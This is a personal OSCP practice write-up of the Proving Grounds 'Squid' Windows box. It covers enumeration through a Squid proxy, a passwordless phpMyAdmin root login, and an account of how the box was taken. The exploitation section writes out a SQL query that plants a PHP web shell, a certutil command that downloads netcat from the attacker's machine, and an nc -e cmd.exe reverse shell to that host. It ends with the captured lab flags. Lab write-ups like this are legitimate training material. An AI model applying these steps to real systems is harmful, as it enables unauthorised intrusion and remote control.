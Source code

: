 ```yaml
---
Date: 2024-10-22
Course: "[[OSCP]]"
Platform: PG-Practice
Category: Windows
Difficulty: Easy
Status: Complete
IP: 192.168.146.189
Writeup: https://medium.com/@ardian.danny/oscp-practice-series-26-proving-grounds-squid-d8043f1f77e2
---
```

# Squid
Everything about this box was a refresher, and there's no doubt I leaned heavily on the walkthrough as I was doing it. Learning about Squid and `spose.py` was interesting, but there's a concern that `spose.py` is pretty niche and I may never have found it (or realised I needed it) without the walkthrough. 

Maybe it's just more familiarity though, and with more practice I'll get better at knowing how to tackle different Windows services. There's no question I learned more about how proxies work from this box, and setting up FoxyProxy to reach the target's open ports was particularly interesting.

Figuring out the MySQL query was challenging too, and I'm not sure I would have figured it out without the walkthrough. Now that I've done it though, I can absolutely see how it works, so there's no question I'd try something similar if I came across the option to enter sql queries into an admin panel again. Understanding how those queries relate to the document root is also awesome to know, and not something I remember being covered in the course content.

Finally, this box helped put the pieces together on some of the netcat commands I've been running but not fully understanding - I needed the walkthrough to spell it out, and now that I've seen it in action I actually get what I've been doing previously when I've copy/pasted stuff in to make it work.

All round, I'm a little frustrated that I've needed so much walkthrough support on what is supposed to be an "easy" box, but the important thing is I keep working away at these boxes each night and learn from each one - it's way better to spend 2 hours following a walkthrough and being able to process the lessons from it, than it is to spend 5 hours bashing my head against the keyboard not understanding and being too stubborn to look at someone else's answers.

# Resolution summary
- Ran Nmap to identify ports `135`, `139`, `445` & `3128`
- Identified port `3128` as running `Squid v4.14`
- Used `spose.py` to identify ports behind `Squid` proxy
- Setup FoxyProxy to use `Squid` proxy and navigated to port `8080`
- Identified `myPHPAdmin` login and password guessed access
- Identified document root, then ran `MySQL` query to create php page which allowed command injection
- Tested command injection, then uploaded netcat to target
- Used command injection to launch netcat on target with reverse shell to Kali machine
- Caught reverse shell as `system`, then navigated to `C:\` and `C:\Users\Administrator\Desktop` to print flags
## Improved skills
- Windows service enumeration
- PHP command injection
- Netcat broadcaster
## Used tools
- nmap
- python
- spose.py
- FoxyProxy
- certutil

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN squid.nmap 192.168.146.189 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3128/tcp open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.14
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-10-22T07:50:13
|_  start_date: N/A
```
---
# Enumeration
## Port 135 - MSRPC (Windows RPC)
No enumeration conducted
## Port 139 & 445 - SMB (Windows Netbios-SSN)
No enumeration conducted
## Port 3128 - HTTP (Squid http proxy 4.14)
- Navigated to `http://192.168.146.189:3128` and identified `Squid/4.14`
![[Cybersecurity-Resources/images/Pasted image 20241022183533.png]]
- Downloded `spose.py` Squid Pivoting Open Port Scanner) and ran `python3 spose.py --proxy http://192.168.146.189:3128 --target 192.168.146.189` to identify open ports `3306` and `8080` behind proxy
![[Cybersecurity-Resources/images/Pasted image 20241022184332.png]]
- Setup FoxyProxy with hostname `192.168.146.189` and port `3128`
![[Cybersecurity-Resources/images/Pasted image 20241022184554.png]]
- Navigated to `http://192.168.146.189:8080` via proxy `3128` and identified `Wampserver v3.2.3` and aliases
![[Cybersecurity-Resources/images/Pasted image 20241022184838.png]]
- Followed link `phpinfo()`, navigated to `http://192.168.146.189:8080/?phpinfo=-1` and identified `PHP v7.3.21`
![[Cybersecurity-Resources/images/Pasted image 20241022185105.png]]
- Identified `Document_Root` in directory `C:/wamp/www`
![[Cybersecurity-Resources/images/Pasted image 20241022185425.png]]
- Navigated to `http://192.168.146.189:8080/phpmyadmin/` and identified `phpMyAdmin` login page
![[Cybersecurity-Resources/images/Pasted image 20241022185530.png]]
- Attempted password guessing with `root:` (No Password) and gained admin access
![[Cybersecurity-Resources/images/Pasted image 20241022185627.png]]
---
# Exploitation
Selected "SQL" tab, navigated to `http://192.168.146.189:8080/phpmyadmin/db_sql.php?db=mysql` , and successfully ran SQL query 
```
`select '<?php system($_GET["cmd"]); ?>;' into outfile 'C:/wamp/www/revshell.php'
```
![[Cybersecurity-Resources/images/Pasted image 20241022190415.png]]
- Navigated to `http://192.168.146.189:8080/revshell.php?cmd=dir` and confirmed code execution
![[Cybersecurity-Resources/images/Pasted image 20241022190949.png]]
- Uploaded `nc2.exe` from Kali host to target via `certutil` by navigating to `http://192.168.146.189:8080/revshell.php?cmd=certutil%20-urlcache%20-f%20http://192.168.45.209:80/nc2.exe%20nc2.exe`
![[Cybersecurity-Resources/images/Pasted image 20241022191602.png]]
- Setup netcat listener on port `1234` and created reverse shell by navigating to `http://192.168.146.189:8080/revshell.php?cmd=nc2.exe%20192.168.45.209%201234%20-e%20cmd.exe` 
![[Cybersecurity-Resources/images/Pasted image 20241022193428.png]]
- Navigated to `C:\` and ran `type C:\local.txt` to print `e1e484bbc0c7fbccaf088074d318848d`
- Navigated to `C:\Users\Administrator\Desktop` and ran `type C:\Users\Administrator\Desktop\proof.txt` to print `f1d847afd8a8cee6ca94ad3008ce4ec9`
---
# Trophy & Loot
`local.txt` = `e1e484bbc0c7fbccaf088074d318848d`
`proof.txt` = `f1d847afd8a8cee6ca94ad3008ce4ec9`